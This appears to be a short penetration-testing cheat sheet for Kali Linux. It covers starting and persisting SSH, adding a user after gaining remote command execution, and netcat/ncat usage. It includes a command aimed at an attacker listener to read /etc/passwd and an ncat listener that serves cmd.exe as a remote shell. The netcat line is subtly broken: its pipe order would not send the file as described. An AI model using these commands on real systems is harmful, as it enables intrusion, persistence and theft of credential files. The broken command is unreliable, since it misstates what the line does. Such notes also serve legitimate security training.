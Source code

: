 ### Service Management in Kali Linux

Network Services do not start at boot time in kali.

` Service ssh start `

` netstat -antp | grep sshd `

### Setting boot persistence in Kali
Will automatically start SSH on boot time

` update-rc.d ssh enable`

### Adduser in Linux
Comes handy when you have remote command execution.

` adduser alice `

Putting '&' at the end of command will put the execution in background mode

### Netcat

On the attacker machine try to set listening port to 80 / 443 or some standard port as there may be host level firewall blocking the traffic.

Following command will execute the later part of command and will send the output to your kali terminal (may help when shell is breaking due to any problem)

` nc -vn 192.168.31.25 4444 | cat /etc/passwd `

> **Security Alert** During the corporate engagements, always use Ncat with SSL. Transferring sensitive command outputs in plain test is a bad. Someone may capture your /etc/shadow file or SSH key which you are trying to read from the target.

` ncat -lvp 4444 -e cmd.exe - allow 192.168.56.35 -ssl `
